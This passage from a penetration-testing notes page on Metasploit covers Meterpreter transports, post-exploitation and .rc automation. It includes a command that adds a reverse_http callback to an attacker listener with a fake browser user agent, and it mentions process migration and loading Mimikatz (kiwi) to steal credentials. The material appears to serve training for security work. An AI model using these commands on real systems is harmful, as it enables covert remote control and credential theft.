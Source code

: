 Transports are the answer to making meterpreter connect over various protocols, see [Transports Documentation](https://docs.metasploit.com/docs/using-metasploit/advanced/meterpreter/meterpreter-transport-control.html). 
```bash
transport list # to list 
transport add -t reverse_http -l 10.10.10.10 -p 5105 -T 50000 -W 2500 -C 100000 -A "Totes-Legit Browser/1.1"
# -l lhost; -p lport, -T retry total, -W retry wait, -C communication timeout, -A custom user agent 
```

## Metasploit Post Exploitation

Metasploit has post-exploitation features and MSF modules that take an active sessions as an argument. These features are best examplified with the various [[Meterpreter-Commands]], although a important feature is `migrate $PSID`-ing to different more stable and more privileged processes in memory. With the `load` command in a Meterpreter one load various modules such as `powershell` and then `powershell_execute`, see [[Useful_Powershell]] for help with basic powershell. Similar `load kiwi` will load [[Mimikatz-Cheatsheet]]. For [[Pivoting-and-Proxying-with-Metasploit]], it different for different version of Metasploit.

## Further Automation
We can pass a .rc file that automates the entire process in similar way as recent versions of [[Recon-ng]].
```bash
sudo msfconsole -r setup.rc
```

## References

[Metasploit](https://www.metasploit.com/)
[Github Metasploit ParrotOS](https://github.com/ParrotSec/metasploit-framework)
[OS Guide to setting up DB](https://www.offensive-security.com/metasploit-unleashed/using-databases/)
[Rapid7 Workspaces](https://docs.rapid7.com/metasploit/managing-workspaces/)
[darkreading on client side attacks](https://www.darkreading.com/risk/anatomy-of-a-client-side-attack-using-metasploit)
[OS Client Side attacks with Metasploit](https://www.offensive-security.com/metasploit-unleashed/client-side-attacks/)
[Gif source](https://www.offensive-security.com/offsec/what-to-expect-new-oscp-exam/)
[Offsec - Metasploit Unleashed](https://www.offsec.com/metasploit-unleashed/vulnerability-scanning/)
